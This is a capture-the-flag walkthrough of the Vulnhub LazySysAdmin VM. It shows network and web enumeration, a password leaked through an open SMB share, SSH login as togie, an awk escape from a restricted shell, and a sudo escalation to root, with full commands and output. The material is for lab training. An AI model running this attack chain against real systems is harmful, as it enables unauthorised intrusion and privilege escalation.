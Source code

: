 ```yaml
---
    title: LazySysAdmin Walkthrough
    date: 2019-01-03
    excerpt: "LazySysAdmin CTF Write-up and Tutorial"
    tags: [ctf, cybersec, nmap]
---
```


LazySysAdmin is a beginner-friendly CTF that showcases several classic mistakes some system administrators can make. The title is fitting to say the least.

VM can be downloaded at [Vulnhub](https://www.vulnhub.com/entry/lazysysadmin-1,205/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## VM Discovery
As usual, a quick Nmap ping scan reveals the target.

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-02 16:40 EST
...
MAC Address: 08:00:27:7F:98:2D (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.5
Host is up (0.00023s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.06 seconds
```

.5 is the LazySysAdmin VM.

## Port Scanning
Poking a system from afar is the basis for CTFs. Oh Oracle Nmap, reveal to us the target's secrets...

```bash
root@kali:~# nmap -p- -sV -T4 -sS 10.0.2.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-02 16:42 EST
Nmap scan report for 10.0.2.5
Host is up (0.00011s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
MAC Address: 08:00:27:FE:F5:12 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```

Anytime there's a webserver (Apache, Nginx, etc.) present, it's best to scan it ASAP. I like running both Dirbuster and Nikto.

## Web busting
Dirb quickly reveals a few interesting directories. I canceled the scan early (since phpmyadmin has lots of subdirectories).

```bash
root@kali:~# dirb http://10.0.2.5
...
---- Scanning URL: http://10.0.2.5/ ----
==> DIRECTORY: http://10.0.2.5/apache/
+ http://10.0.2.5/index.html (CODE:200|SIZE:38)
+ http://10.0.2.5/info.php (CODE:200|SIZE:77193)
==> DIRECTORY: http://10.0.2.5/javascript/
==> DIRECTORY: http://10.0.2.5/old/
==> DIRECTORY: http://10.0.2.5/phpmyadmin/
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:92)
+ http://10.0.2.5/server-status (CODE:403|SIZE:288)
==> DIRECTORY: http://10.0.2.5/test/
==> DIRECTORY: http://10.0.2.5/wordpress/
==> DIRECTORY: http://10.0.2.5/wp/
```

Going through these one by one.

| Directory | Findings |
| --------- | -------- |
| /apache/ | Empty folder |
| /index.html | Looks like a generic fill-in-the-blank template homepage. |
| /info.php | phpinfo() page |
| /javascript/ | 403 Error |
| /old/ | Empty directory |
| /phpmyadmin | PHPMyAdmin |
| /robots.txt | Reveals a few more directories: /old/, /test/, /TR2/, and /Backnode_files |
| /server-status | 403 |
| /test/ | Empty |
| /wordpress/ | A wordpress site. Screenshot below. |
| /wp/ | Empty |

From info.php, we can see that PHP is version 5.5.9-1. There's a lot of information on this page, from PHP variables to extension data, but I'm not finding anything super interesting.

## Wordpress
Running wpscan is always a good idea (if going loud is fine) on a target WP installation. However, this one seems pretty barren. Upon visiting in a browser, we get a single post like so:

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/lazysys/wordpress.png" alt="">
  <figcaption>The one post, by togie.</figcaption>
</figure>

Might be a username.

## Enum4Linux
Another scanning script, this one checks things like linux user IDs, file shares, printer information, etc. Can't recall the last time I ran into a printer connected to a server, but hey.

```bash
root@kali:~# enum4linux 10.0.2.5
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  3 10:18:44 2019
...
=====================================
|    Share Enumeration on 10.0.2.5    |
=====================================

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   share$          Disk      Sumshare
   IPC$            IPC       IPC Service (Web server)
Reconnecting with SMB1 for workgroup listing.

   Server               Comment
   ---------            -------

   Workgroup            Master
   ---------            -------
   WORKGROUP            LAZYSYSADMIN

[+] Attempting to map shares on 10.0.2.5
//10.0.2.5/print$	Mapping: DENIED, Listing: N/A
//10.0.2.5/share$	Mapping: OK, Listing: OK
//10.0.2.5/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
...
```

Mapping and listing OK? We need to check this out.

Opening the share in the file manager via smb://10.0.2.5/share$ reveals the following:

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/lazysys/directory.png" alt="">
  <figcaption>Samba share listing.</figcaption>
</figure>

Judging by info.php, index.html, the wordpress folder, I'd say this the webroot directory. We haven't seen deets.txt before.

```bash
root@kali:~# curl http://10.0.2.5/deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
```

So our web admin hates multiple passwords and has decided on 12345. The todolist is too little, too late.

```bash
root@kali:~# curl http://10.0.2.5/todolist.txt
Prevent users from being able to view to web root using the local file browser
```

Let's try the credentials from wordpress and deets.txt (togie:12345).

```bash
root@kali:~# ssh togie@10.0.2.5
##################################################################################################
#                                          Welcome to Web_TR1                                    #
#                             All connections are monitored and recorded                         #
#                    Disconnect IMMEDIATELY if you are not an authorized user!                   #
##################################################################################################

togie@10.0.2.5's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

 System information disabled due to load higher than 1.0

133 packages can be updated.
0 updates are security updates.

togie@LazySysAdmin:~$
```

And we're in as togie. Let's see if we can't get root.

...One problem, though. We're in a restricted shell. (An odd change of pace here)

Kudos to [SANS Institute](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) for the restricted shell guide. The old Vi shell spawn didn't work, but we can run awk scripts. 

```bash
togie@LazySysAdmin:~$ cd /
-rbash: cd: restricted
togie@LazySysAdmin:~$ /bin/sh
-rbash: /bin/sh: restricted: cannot specify `/' in command names
togie@LazySysAdmin:~$ export PATH=/bin:/usr/bin:$PATH
-rbash: PATH: readonly variable
togie@LazySysAdmin:~$ awk 'BEGIN {system("/bin/sh")}'
$ whoami
togie
```

We can check if anyone has sudo access with the getent command:

```bash
$ getent group sudo
sudo:x:27:togie
$ sudo /bin/sh
[sudo] password for togie:
# whoami
root
```

And that's that. Of course, we could wreak havoc on this system, but we've accomplished what we set out to do here.
